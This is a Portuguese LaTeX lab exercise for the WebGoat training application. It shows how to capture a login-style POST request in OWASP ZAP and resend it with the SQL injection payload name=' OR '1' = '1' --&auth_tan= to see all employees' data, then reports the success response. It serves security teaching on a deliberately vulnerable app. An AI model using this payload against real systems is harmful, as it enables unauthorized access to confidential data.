 \documentclass[11pt]{ifscarticle}
\begin{document}
\subsection{Exercício 4: Comprometer Confidencialidade com Injeção String SQL}
Neste exercício iremos burlar a validação de busca do sistema para termos acesso a informação de todos os usuários.
\begin{enumerate}
    \item Dentro do WebGoat, vamos acessar \texttt{(A3) Injection > SQL Injection (intro) > Página 11}.
    \item Em \texttt{"SQL Query"}, vamos colocar o dados abaixo:
\begin{lstlisting}[style=json]
Employee Name: Travers
Authentication TAN: P45JSI
\end{lstlisting}
    \item Clicar em \texttt{"Submit"}.
    \item Acessar o ZAP e procurar por uma requisição de método POST com Tags JSON e verificar se contém a nossa Query SQL. Devemos encontrar um requisição com este texto:
\begin{lstlisting}[style=sql]
name=Travers&auth_tan=P45JSI
\end{lstlisting}
    \item Após identificarmos, podemos clicar em \texttt{"Requester"} na parte superior direita do ZAP e selecionar o Method POST.
    \item Vamos colocar os mesmos dados do cabeçalho que o pacote que enviamos anteriormente pelo WebGoat.
    \item No campo de texto inferior do ZAP devemos colocar o comando SQL abaixo:
    \begin{lstlisting}[style=sql]
name=' OR '1' = '1' --&auth_tan=
\end{lstlisting}
    \item Podemos clicar em \texttt{"Send"} e ver a resposta que o sistema nos fornece.
    \item Se estiver correto, podemos esperar uma resposta assim:
\begin{lstlisting}[style=json]
{
  "lessonCompleted" : true,
  "feedback" : "You have succeeded! You successfully compromised the confidentiality of data by viewing internal information that you should not have access to. Well done!",
  "feedbackArgs" : null,

\end{lstlisting}
\end{enumerate}
\end{document}

